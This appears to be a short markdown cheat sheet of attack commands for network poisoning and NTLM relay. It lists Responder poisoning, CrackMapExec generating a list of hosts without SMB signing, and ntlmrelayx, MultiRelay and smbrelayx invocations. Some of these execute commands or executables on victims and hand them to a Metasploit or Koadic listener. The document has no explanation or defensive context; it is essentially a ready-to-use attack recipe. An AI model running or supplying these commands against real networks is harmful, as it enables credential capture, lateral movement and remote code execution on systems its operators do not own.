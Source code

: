 ## Poisoining Attack

#### Responder
```
responder -I eth0
```

#### Generate SMB Signing Disabled Hosts
```
crackmapexec smb --gen-relay-list smb_sigb_disbaled.txt ranges.txt
```
#### Relay Attacks 
ntlmrelayx
```
python3 ntlmrelayx.py -smb2support -tf filename
```
ntlmrelayx Comamnd execution
```
python3 ntlmrelayx.py -smb2support -tf filename -c <msf or koadic listener here>
```
Multirelay
```
python3 MultiRelay.py -t IP -u ALL
```
SMBrelay
```
python3 smbrelayx.py -h IP -c <command>
```
```
python3 smbrelayx.py -h IP -e <executable>
```
